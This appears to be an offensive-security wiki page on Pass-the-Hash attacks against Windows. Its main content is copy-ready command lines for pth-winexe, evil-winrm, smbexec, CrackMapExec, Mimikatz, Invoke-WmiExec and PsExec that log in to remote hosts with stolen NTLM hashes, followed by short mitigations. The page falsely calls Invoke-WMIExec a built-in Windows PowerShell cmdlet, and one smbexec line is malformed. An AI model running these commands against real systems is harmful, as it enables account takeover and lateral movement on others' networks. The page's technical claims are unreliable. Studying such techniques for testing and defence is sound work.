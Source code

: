 # Pass-the-Hash

A Pass-the-Hash (PtH) attack is a credential theft technique primarily targeting Windows-based systems. In this attack, an attacker obtains the hashed password of a user and uses it to authenticate as that user, bypassing the need for the actual plain-text password.

[Broken link](broken-reference "mention")

## Authentication through the stolen password hash

This is the main step where the adversary passes the hash to impersonate the user and gain access to the remote system.

### With pth-winexec (From Kali)

* [GitHub - byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
* [Pass the Hash toolkit, Winexe | Kali Linux](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/)

```bash
pth-winexe -U $USER_ACCOUNT%$NTLM_HASH //$HOST_IP powershell
```

### With evil-winrm (From Kali)

The "evil-winrm" tool is a Ruby gem that enables the execution of remote commands on a Windows machine using the Windows Remote Management (WinRM) protocol.

```bash
evil-winrm -u $USER_ACCOUNT -H $NTLM_HASH -i $HOST_IP
```

### With SMBExec (From Kali)

```bash
cd /usr/share/doc/python3-impacket/examples/smbexec.py .

python3 smbexec.py <DOMAIN>/<USER>@<IP> -hashes <LMHASH>:<NTHASH>
```

### With CrackMapExec (From Kali)

```bash
crackmapexec smb <IP> -u USER -H <LM:NT>
```





### With Mimikatz (From Windows attack  machine)

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:$USER /domain:domain.com /ntlm:$NTLM_HASH /run:powershell.exe"

Invoke-Mimikatz -Command '"sekurlsa::pth /user:$USER /domain:domain.com /ntlm:$NTLM_HASH /run:powershell.exe"'
```
{% endcode %}

More details in this page: [mimikatz.md](../../../tools/tools/mimikatz.md "mention")

### With Powershell (PowerView) (From Windows attack Machine

It is common for adversaries to use the _**Invoke-WMIExec**_ cmdlet, which allows execution of arbitrary commands on a remote Windows machine using WMI (Windows Management Instrumentation), to perform a PtH attack.

{% code overflow="wrap" %}
```powershell
Invoke-WmiExec -target $HOST_IP -hash a0c8746a6efc7782c7c19c55185145be -username Alice -command powershell
```
{% endcode %}

{% hint style="info" %}
Note that Invoke-WMIExec is a built-in PowerShell cmdlet that is present in many recent Windows systems. This feature enables the execution of arbitrary commands on a remote Windows machine through Windows Management Instrumentation (WMI). You can run Invoke-WMIExec directly from a PowerShell prompt or integrate it into a PowerShell script.
{% endhint %}



## Accessing resources through new user account

In the third step, we uses the newly obtained user account to expand their network access. For instance, the adversary can use a command-line utility called **PsExec** to perform remote code execution on another host.

```powershell
psexec.exe \\$HOST_IP cmd.exe
```



## Mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:

* **Limit account re-use**:
  * Avoid re-using local admin password
  * Disable Guest and Administrator accounts
  * Limit who is a local administrator (least privilege)
* **Utilize strong passwords**:
  * The longer the better (>14 characters)
  * Avoid using common words
  * I like long senteces
* **Privilege Access management (PAM):**
  * Check out/in sensitive accounts when needed
  * Automatically rotate passwords on check out and check in
  * Limits pass attacks as hash/passowrd is strong and constantly rotated







## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash" %}

